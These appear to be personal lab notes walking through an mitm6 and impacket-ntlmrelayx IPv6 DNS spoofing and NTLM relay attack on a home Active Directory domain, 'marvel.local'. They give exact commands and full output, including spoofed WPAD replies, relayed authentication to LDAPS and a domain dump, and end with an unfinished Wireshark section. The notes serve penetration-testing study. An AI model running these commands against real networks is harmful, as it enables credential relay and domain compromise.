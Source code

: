 
If mitm6 not yet installed
1. cd /opt/mitm6
2. sudo pip3 install .


How to initiate the attack?

1. Prepare the command `sudo mitm6 -d marvel.local`. Do not yet execute it as we will run ntlmrelayx first.
2. Execute `ntlmrelayx 6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -escalate-user pparker` or `impacket-ntlmrelayx -6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -l lootme` - Sets up the relay server and WPAD host, ready to intercept and relay NTLM authentication.

```
└─$ impacket-ntlmrelayx -6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -l lootme
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client fe80::fde3:206f:be61:b3b7
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, attacking target ldaps://192.168.64.250
[*] HTTPD(80): Authenticating against ldaps://192.168.64.250 as MARVEL/PUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409

```
3. Now execute the `sudo mitm6 -d marvel.local`

```
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -d marvel.local                                                          
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth0 [ea:f0:2f:00:11:3a]
IPv4 address: 192.168.64.4
IPv6 address: fe80::e8f0:2fff:fe00:113a
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::913:1 is now assigned to mac=8e:27:0f:ff:34:d1 host=SPIDERMAN.MARVEL.local. ipv4=
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Renew reply sent to fe80::913:1
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7


```

4. After that,  a loot me file was saved in the /home/kali directory

Capturing, in the wireshark, here is the step by step

1. IPV6 router advertisement - The attacker/kali impersonates will introduce itself as an  IPV6 router
![[Pasted image 20240716203249.png]]
2. DHCPv6 Activity - devices perform DHCPv6 solicitation in response to the new router advertisement
3. 